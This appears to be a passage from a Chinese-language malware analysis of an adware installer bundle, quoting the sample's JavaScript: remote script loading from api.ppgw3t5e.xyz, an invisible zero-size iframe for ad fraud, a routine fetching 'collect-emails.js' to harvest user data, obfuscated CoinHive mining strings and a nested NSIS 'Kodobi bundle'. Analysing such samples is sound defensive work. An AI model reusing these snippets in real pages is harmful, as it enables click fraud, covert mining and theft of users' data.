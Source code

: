 脚本“module.js”将加载“union-module.js”:

```
this.apiUrl = '//api.ppgw3t5e.xyz/common/union-module.js';
```

加载后续 javascript 文件的顺序会持续一段时间，有些似乎与执行广告欺诈和虚假点击有关，或者将更多脚本加载到不可见的 iframes 中:

```
var iframe = document.createElement('iframe');
                iframe.name = "advpp_manager";
                iframe.src = "//api.ppgw3t5e.xyz/common/cookie";
                iframe.width = '0px';
                iframe.height = '0px';
                iframe.style.border = '0px';document.body.appendChild(iframe);
```

其他一些跟踪变得相当深入:

```
UnionModule.manager.init()
            .then(function () {
                if (!CookiesModule.getCookie("___ml_clltr")) {
                    new JsLoader('//api.ppgw3t5e.xyz/assets/javascripts/collect-emails.js', function () {
                        collectEmail(UserModule.getUserId(), 'api.ppgw3t5e.xyz');
                    });
                }
                return UnionModule.manager.readCookie("visits");
            })
```

还提到了利用 coinhive 和一些通过 regex 解码的稍微模糊的字符串:

```
_ch: "Co" + '' + "in" + "" + 'Hi' + '' + 've',
        _an: "An" + "" + "" + 'o' + '' + 'ny' + '' + 'mous',var cc = '345435C067586r0004y34p345t545o045J35670654S4512237789';
var s = '4598A0000413E13S435665465465490890';
var rd = '0974545d3455497e5468789c235r545646134y34565958p45654645t4564645124386543';>>> a = '345435C067586r0004y34p345t545o045J35670654S4512237789'
>>> [x for x in a if x not in '0123456789']
['C', 'r', 'y', 'p', 't', 'o', 'J', 'S']
>>> a = '4598A0000413E13S435665465465490890'
>>> [x for x in a if x not in '0123456789']
['A', 'E', 'S']
>>> a = '0974545d3455497e5468789c235r545646134y34565958p45654645t4564645124386543'
>>> [x for x in a if x not in '0123456789']
['d', 'e', 'c', 'r', 'y', 'p', 't']
```

在这个 NSIS 安装程序里面是另一个 NSIS 安装程序，叫做 Kodobi bundle。

```
load.bin
load.pyc
mjfnijmemjilopepdgnakgghiboempgf.crx
$PLUGINSDIR/nsExec.dll
```
